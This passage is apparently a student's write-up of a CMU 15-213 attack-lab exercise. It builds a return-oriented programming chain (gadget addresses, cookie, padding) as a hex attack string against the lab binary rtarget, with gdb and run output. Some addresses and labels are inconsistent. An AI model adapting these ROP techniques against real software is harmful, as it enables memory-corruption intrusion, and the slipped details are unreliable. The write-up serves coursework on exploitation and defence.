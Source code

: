 We can start by finding the instruction `movq x, %rdi` instruction in gadget2, which has binary representation of `48 89 ??`, whre `??` is different according to different `x`. Because it long and we need to satify it first.
By finding `48 89` in our farm. We can find:
`
4019c3:	c7 07 48 89 c7 90    	movl   $0x90c78948,(%rdi)
4019c9:	c3                   	retq   
`
This perfectly corresponding the gadget2 we need. And this pop the cookie to the register `%rax`. So, we the address of our gadget2 is: `4019c5`

Then we can get x is %rax. So we find our gadget1 by find the instruction "popq %rax", which has a binary representation of "58".
By finding "58" in our farm. We can find:
```
4019b5:	c7 07 54 c2 58 92    	movl   $0x9258c254,(%rdi)
4019bb:	c3    
```
This perfectly corresponding the gadget1 we need. So, we the address of our gadget2 is: `4019ab`

### 4)  Compose the attack string
By set the breakpoint we can find the address of `touch2()`:
```
(gdb) break touch2
Breakpoint 1 at 0x4017ec: file visible.c, line 40.
```

The first part of our attack string is irrelavent, I use 40 `00`.
The second part of our attack string is the address and data we put on the stack, remember it's:
address of gadget1 -> `cookie` -> address of gadget2 -> address of `touch2()`
As they are all litte-edian, we can get:
- address of gadget1: `ab 19 40 00 00 00 00 00`
- `cookie`: `fa 97 b9 59 00 00 00 00`
- address of gadget2: `c5 19 40 00 00 00 00 00`
- address of `touch2()`: `ec 17 40 00 00 00 00 00`

So, the whole attack sting is:
```00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 ab 19 40 00 00 00 00 00 fa 97 b9 59 00 00 00 00 c5 19 40 00 00 00 00 00 ec 17 40 00 00 00 00```

### 5) Verification result:
Run the program, we can get such the successful result (`level2.txt` contains our attack string):
```
li@li-KLV-WX9:~/Desktop/CMU-152-13/target1$ cat part2-level2.txt | ./hex2raw | ./rtarget -q
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target rtarget
PASS: Would have posted the following:
    user id	bovik
    course	15213-f15
    lab	attacklab
    result	1:PASS:0xffffffff:rtarget:2:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 AB 19 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 C5 19 40 00 00 00 00 00 EC 17 40 00 00 00 00
```
